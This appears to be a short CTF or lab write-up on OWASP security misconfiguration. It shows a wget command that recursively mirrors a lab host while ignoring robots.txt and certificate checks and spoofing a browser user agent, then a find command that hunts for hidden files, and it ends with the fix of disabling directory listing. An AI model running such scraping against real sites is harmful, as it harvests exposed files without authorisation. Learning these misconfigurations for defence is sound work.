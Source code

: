 # [Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)

## Exploit

```sh
wget -r -l inf --no-check-certificate -e robots=off -U "Mozilla/5.0" http://10.0.2.5
find .hidden -type f ! -size 34c ! -name "*.html"
```

## Solution

Disable directory listing and access to unnessary files.
